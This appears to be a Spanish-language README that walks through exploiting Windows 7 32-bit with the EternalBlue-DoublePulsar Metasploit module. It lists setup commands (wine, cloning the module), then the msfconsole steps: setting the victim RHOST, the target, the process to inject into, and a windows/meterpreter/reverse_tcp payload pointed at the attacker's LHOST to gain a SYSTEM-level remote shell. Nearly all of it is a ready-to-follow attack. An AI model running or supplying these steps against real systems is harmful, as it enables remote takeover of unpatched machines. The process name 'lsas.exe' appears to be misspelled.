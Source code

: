 # Guía práctica para explotación de Eternalblue-DoublePulsar sobre Windows 7 - i386 

## Procedimiento

## Preparación de entorno
Se debe instalar el programa wine y agregar la arquitectura de 32bits al sistema, para esto ejecutaremos los pasos siguientes:

  - root@kali:~#  apt-get install wine -y
  - root@kali:~#  apt-get install winetricks -y
  - root@kali:~#  dpkg –add-architecture i386 && apt-get update && apt-get install wine32 -y
  
## 1) Instalación del módulo en Metasploit
- Clonar el repositorio de Eternalblue-DoublePulsar 
  - root@kali:~#  git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
  - root@kali:~#  cd Eternalblue-Doublepulsar-Metasploit/
- Copiar el archivo eternalblue_doublepulsar.rb a la siguiente dirección: /usr/share/metasploit-framework/modules/exploits/windows/smb/
- Crear la estructura de directorios ‘/root/shadowbroker/windows/lib/x86-Windows/’ y copiar la carpeta deps en  ‘/root/shadowbroker/windows/lib/x86-Windows/’
- Abrir una terminal y tipear el comando winecfg para que se cree la carpeta /root/.wine/drive_c/

## 2) Explotación    
- Abrir una terminal y iniciar metasploit con el comando msfconsole
- Llamamos al exploit con el path exploit/windows/smb/eternalblue_doublepulsar
  - msf5 > use exploit    
- vemos las opciones disponibles 
  - msf5 > show options
- Ingresamos la IP y el puerto (por defecto 445) del objetivo
  - msf5 > set RHOST (IP víctima)
- Seleccionamos el sistema objetivo
  - msf5 > show targets
  - msf5 > set target 8
- Seleccionamos el proceso en cual se va a inyectar el payload, es muy importante tener en cuenta que tipo de arquitectura se va a atacar, por defecto el proceso a inyectar es wlms.exe, esto funciona con equipos de 32 bits, si nuestra víctima utiliza un sistema de 64bits se debe cambiar de proceso a lsas.exe, de lo contrario el exploit fallará.
  - msf5 > set PROCESSINJECT wlms.exe    (si es de 32bits)
  - msf5 > set PROCESSINJECT lsas.exe        (si es de 64bits)
- Seleccionamos la arquitectura del sistema que vamos a atacar (x32 o x64) en nuestro caso 32 bits
  - msf5 > set TARGETARCHITECTURE x32
- Seleccionamos el payload, en nuestro caso un meterpreter, y lo configuramos 
  - msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
  - msf5 > set LHOST (IP atacante)
- Revisamos una última vez que estén correctamente configurados todos los parámetros
  - msf5 > show options
- Finalmente usamos el comando exploit y obtendremos una sesión remota de meterpreter con privilegios de System en la máquina víctima

## Materiales y recursos
- Máquina atacante con Kali Linux y Metasploit
- Exploit Eternalblue-DoublePulsar (https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
- Máquina víctima, Windows 7 con arquitectura de 32bits 


